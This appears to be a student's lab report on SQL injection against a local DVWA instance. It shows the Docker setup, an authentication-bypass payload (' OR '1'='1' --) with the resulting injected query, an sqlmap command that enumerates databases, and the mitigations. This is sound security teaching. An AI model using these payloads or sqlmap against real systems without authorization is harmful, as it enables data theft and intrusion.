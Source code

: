 ```yaml
---

## 📜Day 4 Report

### **Web Security Basics & SQL Injection**

### **Objective: Understand and exploit SQL Injection vulnerabilities.**
---
```


### **Introduction**
Web security is the practice of protecting websites, applications, and APIs from malicious attacks. Among the most critical threats is SQL Injection (SQLi), a vulnerability that allows attackers to manipulate databases by injecting malicious SQL code. It ranks #1 in the OWASP Top 10 for its prevalence and impact.

### **Why SQL Injection Matters**
🔹**Data Breaches:**  Attackers can steal sensitive data (e.g., user credentials, payment info).

🔹**Data Manipulation:** Delete, modify, or insert unauthorized records.

🔹**Full System Compromise:** Escalate to remote code execution in worst-case scenarios.

---
## **📜Tasks Completed**

### **1️⃣  Set Up DVWA (Damn Vulnerable Web App)**
✔️ **Deployed via Docker:**
```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

✔️ **Access DVWA:**
  - **Navigated to **`http://localhost`** on my browser.**
  - **Logged in with credentials: **`admin`** / **`password`**.**
  - **Set the security level to **Low** (DVWA Security tab).**

### **2️⃣ Manual SQL Injection Exploit**
**✔️ Bypassed Authentication:**
  - **Payload Used:** **`' OR '1'='1' -- `**

```
-- Original Query (simplified)  
SELECT * FROM users WHERE user = '$input' AND password = '$hashed_pass';  

-- Injected Query  
SELECT * FROM users WHERE user = '' OR '1'='1' -- ' AND password = '...';  
```
📌 **Output:** Logged in as admin without a valid password.



### **3️⃣ Automated Exploitation with SQLMap**
**✔️ Command Executed:**
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id" --dbs
```

**✔️Flags Explained:**
  - **`--dbs`:** Enumerate databases.
  - **`--cookie`:** Authenticate using your DVWA session cookie (required for access).

**✔️ Example Output:**
```
available databases [2]:  
[*] dvwa  
[*] information_schema
```


### **🚀Key Takeaways**
🔹**SQL Injection Risks:**
  - **Unfiltered user input allows attackers to manipulate database queries.**
  - **High-impact exploits: data theft, privilege escalation, and system compromise.**

🔹**Mitigation:**
  - **Parameterized queries (e.g., using PDO in PHP).**
  - **Input validation (e.g., allow only alphanumeric characters in usernames).**


![Screenshot 2025-03-04 105435](https://github.com/user-attachments/assets/be1c0958-8bee-4355-8186-f1913442869d)

![Screenshot 2025-03-04 105421](https://github.com/user-attachments/assets/31c75659-9608-4534-9363-68d9c4b6d178)

![Screenshot 2025-03-04 105408](https://github.com/user-attachments/assets/2e9e80d4-2cdf-4351-8a1a-930ff4431f46)

![Screenshot 2025-03-04 105247](https://github.com/user-attachments/assets/3e8fddbd-a948-4a9b-a061-a72ffd2ba373)

![Screenshot 2025-03-04 105232](https://github.com/user-attachments/assets/13410148-fbe1-4b5c-9145-e240e28cd537)

![Screenshot 2025-03-04 105215](https://github.com/user-attachments/assets/20e8b7ff-ef74-4976-82d8-630b7fd7ff32)

![Screenshot 2025-03-04 105200](https://github.com/user-attachments/assets/6f8df56a-532d-4e89-858f-a0ffca7e8359)

![Screenshot 2025-03-04 105113](https://github.com/user-attachments/assets/41ad3b5d-8596-4a38-850d-cd8eebd4ec7b)

![Screenshot 2025-03-04 105058](https://github.com/user-attachments/assets/67280bc3-949e-441f-bc41-6f7416edfe5b)

![Screenshot 2025-03-04 105040](https://github.com/user-attachments/assets/0d2d767d-6336-484d-be27-d255ff751518)

![Screenshot 2025-03-04 105027](https://github.com/user-attachments/assets/1a9311d8-1f68-4c09-8121-90344a4d56ef)

![Screenshot 2025-03-04 105011](https://github.com/user-attachments/assets/a60b77f9-a6a6-4c06-8726-69e45cc76610)

![Screenshot 2025-03-04 104931](https://github.com/user-attachments/assets/3282fdaa-6047-4d43-9b7f-5b446d8b7cb4)
